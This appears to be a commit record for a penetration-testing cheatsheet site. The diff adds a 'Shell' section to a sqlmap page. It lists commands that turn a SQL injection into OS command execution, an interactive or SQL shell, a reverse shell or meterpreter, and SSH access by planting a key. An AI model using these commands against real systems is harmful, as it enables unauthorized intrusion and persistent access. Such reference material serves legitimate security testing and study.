

Before and after one commit to tymyrddin/cheatsheets, a Sphinx documentation site: the page built from source/docs/databases/sqlmap-cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 290 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
databases

````diff
--- a/source/docs/databases/sqlmap-cheatsheet.md
+++ b/source/docs/databases/sqlmap-cheatsheet.md
@@ -41,3 +41,25 @@
 --columns                   # Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
 -D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME>   # Dump column
 ```
+
+## Shell
+
+Execute a command (requires permission):
+
+    # sqlmap -u "<target>/<pagename>.php?id=1" --os-cmd whoami
+
+Simple shell (will not work when not having the permissions:
+
+    # sqlmap -u "<target>/<pagename>.php?id=1" --os-shell
+
+SQL shell:
+
+    # sqlmap -u "<target>/<pagename>.php?id=1" --sql-shell
+
+Dropping a reverse-shell/meterpreter (requires permissions):
+
+    # sqlmap -u "<target>/<pagename>.php?id=1" --os-pwn
+
+SSH Shell by dropping an SSH key:
+
+    # sqlmap -u "<target>/<pagename>.php?id=1" --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/
````
